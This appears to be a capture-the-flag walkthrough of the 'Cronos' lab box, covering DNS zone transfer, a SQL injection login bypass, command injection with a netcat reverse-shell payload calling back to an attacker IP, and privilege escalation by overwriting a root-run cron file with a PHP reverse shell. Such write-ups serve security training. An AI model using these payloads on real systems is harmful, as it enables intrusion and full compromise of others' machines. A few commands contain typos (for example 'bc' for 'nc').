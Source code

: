 Starting with an nmap sear, I see port `53` has a DNS server

```
$ nmap -sC -sV 10.129.227.211
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 10:47 CDT
Nmap scan report for 10.129.227.211
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

An NSLOOKUP on the ip address, finds a nameserver:

```
$ nslookup 10.129.227.211 10.129.227.211
211.227.129.10.in-addr.arpa	name = ns1.cronos.htb.
```

I do a zone transfer to look at the DNS records:

```
$ dig axfr @10.129.227.211 cronos.htb

; <<>> DiG 9.18.24-1-Debian <<>> axfr @10.129.227.211 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 73 msec
;; SERVER: 10.129.227.211#53(10.129.227.211) (TCP)
;; WHEN: Sun Oct 20 11:18:03 CDT 2024
;; XFR size: 7 records (messages 1, bytes 203)
```

Adding the admin subdomain to the hosts file:

```
echo "10.129.227.211 admin.cronos.htb" | sudo tee -a /etc/hosts
```

I get a user signin page, where I can sign in using SQL injection, as a username I use `admin'-- -`, then use any password as it's commented out by the username.

The first page is `welcome.php`, where there is the DNS command `traceroute` and space for user input where I see an ip address. This is a bit of a hint to use command injection, `8.8.8.8;whoami` and get the output ` www-data`.

As command injection has been proven I can try getting a shell on this box starting a netcat listener on my local, and injecting a bash shell on the web-app.

I open up `burp` and change the `command=` to a a reverse shell, with certain characters encoded as `base64`

```
command=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.207+1234+>/tmp/fcd
```

Locally I run the netcat listener:

```
$ sudo bc -lnvp 1234
```

I find the user flag on `/home/noulis/user.txt`

Using the enumeration script found on github, locally I run:

```
git clone https://github.com/rebootuser/LinEnum
```

I run a python web server in the directory with the script:

```
python3 -m http.server 8000
```

I get the script by running curl:

```
curl {my local ip}:8000/LinEnum.sh > linenum.sh
```

Then I run the script on the attacking box:

```
$ sh linenum.sh > output.txt

$ cat output.txt | grep laravel
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

I download a php reverse shell by:

```
$ git clone https://github.com/pentestmonkey/php-reverse-shell
$ chmod +x php-reverse-shell.php
```

In a text editor, I change the ip address to my local ip address, and run the python http server again.

On the victim box I curl the web-server, then mv the reverse shell to location where the cron job executes the laravel file under root:
```
$ curl 10.10.14.207:8000/php-reverse-shell.php >php-reverse-shell.php
$ mv /tmp/php-reverse-shell.php /var/www/laravel/artisan
```

Run netcat locally under the port enumerated in the php-reverse-shell and wait a minute, there I will get root access to the box.

From there the root flag is found in `/root/root.txt`
